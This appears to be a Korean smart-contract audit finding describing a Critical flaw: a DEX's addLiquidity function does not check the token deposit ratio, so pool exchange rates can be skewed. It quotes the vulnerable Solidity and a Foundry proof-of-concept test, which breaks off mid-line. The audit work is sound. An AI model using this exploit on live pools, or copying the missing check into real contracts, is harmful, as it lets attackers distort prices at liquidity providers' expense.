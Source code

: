 ## DEX - addLiquidity의 유동성 공급비 검증의 부재

### 설명

<aside>
💡 **키워드 : Vulnerability - 유동성 풀 조작
심각도 : Critical**
`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있다.

</aside>

```solidity
if (liquiditySum == 0) {
    lpToken = Math.sqrt(tokenXAmount * tokenYAmount); //initial token amount
} else {
    (X, Y) = update();

    // 기존 토큰에 대한 새 토큰의 비율로 계산
    uint liquidityX = (liquiditySum * tokenXAmount) / X;
    uint liquidityY = (liquiditySum * tokenYAmount) / Y;
    lpToken = (liquidityX < liquidityY) ? liquidityX : liquidityY;
}
_tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
_tokenY.transferFrom(msg.sender, address(this), tokenYAmount);
transfer(msg.sender, lpToken);
```

토큰 발급은 더 적은 토큰 공급량에 맞추기 때문에 이를 악용하여 DEX의 유동성을 탈취하는 행위는 불가능하다.

하지만 기존 비율과 맞지 않는 유동성을 공급할 수 있고, 이는 전체 유동성 풀의 비율을 깨뜨릴 수 있게 된다.

### PoC

```solidity
function testPOC() external {
    tokenX.transfer(address(0x01), 1 ether);
    tokenY.transfer(address(0x01), 100 ether);

    tokenX.transfer(address(0x02), 100 ether);
    tokenY.transfer(address(0x02), 102 ether);
    uint256 LP1;
    vm.startPrank(address(0x01));
    {
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
        console.log("LP1", LP1);
    }
    vm.stopPrank();

    vm.startPrank(address(0x02));
    {
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);
        console.log("LP2", lp);

        console.log(
            "user 2 : before swap balance",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );
        uint res = dex.swap(0, 101 ether, 0);
        console.log(
```